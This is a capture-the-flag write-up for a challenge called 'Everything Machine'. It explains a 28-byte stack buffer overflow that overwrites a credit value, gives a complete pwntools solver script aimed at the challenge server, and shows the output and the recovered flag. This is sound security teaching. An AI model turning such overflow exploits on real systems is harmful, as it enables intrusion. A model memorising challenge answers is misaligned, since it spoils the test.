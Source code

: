 # Everything Machine
<br>
<br>

This challenge is pretty similar to [Debugging Spider](../Debugging%20Spiders/), we need to do a buffer overflow to get the flag, If we see the decompiled binary carefully, the value (credit) will be return as `16` if the string we input is not equal to either `flag` or `Trial`, and yes we can do a buffer overflow here to change the return value. 

First, i try to use GDB to find the offset where I can change the value for my credits, and then I found the offset of `28 bytes`, then I thought what if after the 28 bytes I put `b'3030'`, and try it against the server immediately. 

**solver.py**
```python
from pwn import *

binary = './everything'
elf = context.binary = ELF(binary,checksec=True)

gdbscript = '''
b *0x00000000004011b1
'''.format(**locals())

if 'remote' in sys.argv:
    p = remote('34.124.192.13', 60640)
else:
    p = process(binary)
    if 'gdb' in sys.argv:
        gdb.attach(p, gdbscript=gdbscript)

p.recv()

payload = b'a'*28
payload+= b'3030'

print(payload)


p.sendline(payload)

p.interactive()
```

And we got the flag. :relaxed:

```[*] '/home/kiinzu/Documents/FCTF/everything'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 34.124.192.13 on port 60640: Done
b'aaaaaaaaaaaaaaaaaaaaaaaaaaaa3030'
[*] Switching to interactive mode
Your credits: 0x30333033
FindITCTF{D1v1s10n$_1z_th3_b3st_4LBUM}[*] Got EOF while reading in interactive
```

Note:
- It can actually be any value as long it's greater than 3030, if we use 'aaaa' the value will be 0x61616161 